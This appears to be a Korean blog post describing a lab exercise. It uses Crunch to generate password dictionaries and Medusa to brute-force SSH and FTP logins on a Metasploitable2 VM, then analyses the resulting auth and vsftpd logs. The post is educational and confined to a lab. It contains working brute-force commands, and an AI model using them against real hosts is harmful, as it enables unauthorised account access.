 ```yaml
---
title:  "Medusa"
excerpt: ""

categories: security
tags:
  - [csrf, security, metasploitable2, dvwa]

toc: true
toc_sticky: true
 
date: 2022-5-17
last_modified_at: 2022-5-17
---
```

## Kali linux에서 Medusa, Crunch를 활용해서 Brute Force 공격 해보기
#### Metasploitable2 설정
* * *
```bash
$ metasploitable2@msfadmin : sudo adduser iu
# 비밀번호는 goodluck
```

#### Kali 설정
* * *
medusa 설치 확인

```bash
$ kali@kali : sudo medusa --help
```

![picture 1](/assets/images/20220517-011724.png){: .center} 

##### Dictionary 수정
* * *
```bash
$ kali@kali : cd /usr/share/john
$ kali@kali : vi password.lst
```

##### Medusa 사용

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u iu password.lst -M ssh
```

![picture 2](/assets/images/20220517-012128.png){: .center}

---

* * *
#### 딕셔너리 만들기 실습
* * *
```bash
$ kali@kali : cd /usr/share/crunch
# 메뉴얼 확인
$ kali@kali : sudo man crunch
```

##### 숫자 4자리로 구성된 딕셔너리를 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -o pw1.txt
$ kali@kali : less pw1.txt
```
![picture 3](/assets/images/20220517-013532.png){: .center} 

\* 주의사항) 너무 큰 파일을 생성하면 에러 발생 우려 ex) 500MB 이상

##### 소문자 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : less charset.lst
$ kali@kali : sudo crunch 4 4 -f charset.lst lalpha -o pw2.txt
$ kali@kali : less pw2.txt
```
![picture 4](/assets/images/20220517-014036.png){: .center}

![picture 7](/assets/images/20220517-014206.png){: .center}  

![picture 5](/assets/images/20220517-014142.png){: .center}

##### 특정 문자가 들어가는 4자리로 구성된 딕셔너리 만들기
* * *
```bash
$ kali@kali : sudo crunch 4 4 0123456789 -t 'sk@@' -o pw3.txt
$ kali@kali : less pw3.txt
```

![picture 8](/assets/images/20220517-015612.png){: .center}

![picture 9](/assets/images/20220517-015648.png){: .center}

##### skinfosec 뒤에 숫자 세자리, 특수문자 1자리로 된 딕셔너리
* * *
\* ' ' 를 사용하고 @를 넣으면 와일드 문자로 사용되지만,

\* ' ' 를 사용하지 않는 경우 아래와 같이 문자가 지정 됨.
- @ : lower case character
- , : upper case character
- % : numbers
- ^ : symbols

```bash
$ kali@kali : sudo crunch 13 13 -t skinfosec%%%^ -o pw4.txt
$ kali@kali : less pw4.txt
```

![picture 10](/assets/images/20220517-020107.png){: .center}

![picture 11](/assets/images/20220517-020130.png){: .center}


##### Medusa + Crunch 로 Brute Force 공격 해보기
* * *
**Metasploitable 에서 계정 추가**

```bash
$ metasploitable : sudo adduser gidle
# password : Sk#4
# 로그 실시간 확인
$ metasploitable : tail -f /var/log/auth.log
```

![picture 12](/assets/images/20220517-021336.png){: .center}

**Kali 에서 crunch로 딕셔너리 생성**

```bash
$ kali@kali : sudo crunch 4 4 -t ,@^% -o pw5.txt
$ kali@kali : less pw5.txt
```

![picture 14](/assets/images/20220517-021536.png){: .center}


![picture 13](/assets/images/20220517-021512.png){: .center}

**Kali 에서 medusa 로 brute force 공격 시작**

```bash
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh
# -t : 쓰레드 추가 -> 속도 up!
$ kali@kali : sudo medusa -h 192.168.5.130 -u gidle pw5.txt -M ssh -t 16
```

![picture 15](/assets/images/20220517-021802.png){: .center}
#### Log 분석하기
* * *
```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ sudo cp /var/log/auth.log /var/www
$ sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ sudo wget 192.168.5.128/auth.log
$ cat auth.log | awk '{print $12,$13,$14,$15}' | sort | uniq -c
$ cat auth.log | awk '{print $5}' | awk -F"[" '{print $1}' | sort | uniq -c | sort -rn
```

![picture 16](/assets/images/20220517-031446.png){: .center}

**ftp 로그 확인**

```bash
$ kali : sudo medusa -h 192.168.5.130 -u gidle -P pw5.txt -M ftp -t 16
```

```bash
# Kali가 가져올 수 있도록 metasploitable2 에서 파일 옮기기
$ msfadmin : sudo cp /var/log/auth.log /var/www
$ msfadmin : sudo chmod 777 /var/www/auth.log
```

```bash
# kali로 가져오기 
$ kali : sudo wget 192.168.5.128/vsftp.log
```

![picture 17](/assets/images/20220517-031911.png){: .center}  

```bash
# log 분석 uniq -c : 중복제거 + 개수, sort -rn -> r : 내림차순(revers), n : 수를 기준으로 정렬
$ kali : cat vsftpd.log | awk '{print $8, $12}' | sort | uniq -c | sort -rn
```

![picture 18](/assets/images/20220517-032332.png){: .center}  


**파일 가져오지 않고, Kali에서 Meta2로 SSH 접속 후 로그 확인**

```bash
$ kali : sudo ssh 192.168.5.130 -l msfadmin
```

![picture 19](/assets/images/20220517-033120.png){: .center}